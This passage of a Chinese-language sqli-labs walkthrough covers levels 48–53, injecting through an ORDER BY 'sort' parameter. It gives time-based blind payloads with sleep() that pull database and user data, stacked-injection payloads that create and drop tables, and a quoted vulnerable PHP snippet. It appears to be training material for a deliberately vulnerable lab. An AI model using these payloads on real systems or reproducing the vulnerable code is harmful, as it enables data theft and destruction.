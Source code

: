 <img src="https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201112161537091.png" alt="image-20201112161537091" style="zoom:50%;" />

或者延时注入

?sort=1 and (If(ascii(substr(database(),1,1))=115,0,sleep(5)))



## 0X35Less-49

相比48多了‘闭合 依旧可以使用延时注入

?sort=1' and (if(ascii(substr((select username from users where id=1),1,1))=115,0,sleep(5)))--+

![image-20201112162450032](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201112162450032.png)



## 0X36Less-50

46的方法依旧可以用，但是查询方式由 mysql_query 变成了 mysqli_multi_query，因此支持堆叠注入

?sort=1;create table less50 like users

![image-20201112163124769](C:\Users\Heria.Chen.GAIAWORKS\AppData\Roaming\Typora\typora-user-images\image-20201112163124769.png)

![image-20201112163149116](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201112163149116.png)

?sort=1;drop table less50

![image-20201112163229847](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201112163229847.png)

## 0X37Less-51

相比50多了’闭合

```
$id=$_GET['sort'];    
$sql="SELECT * FROM users ORDER BY '$id'";
mysqli_multi_query($con1, $sql);
```

?sort=1';create table less51 like users--+

## 0X38Less-52

和less50是一样的，只是这里的mysql错误不会在前台显示，但是对于stacked injection是一样的利用方式

?sort=1;create table less52 like users



## 0X39Less-53

和less51是一样的，只是这里的mysql错误不会在前台显示，但是对于stacked injection是一样的利用方式
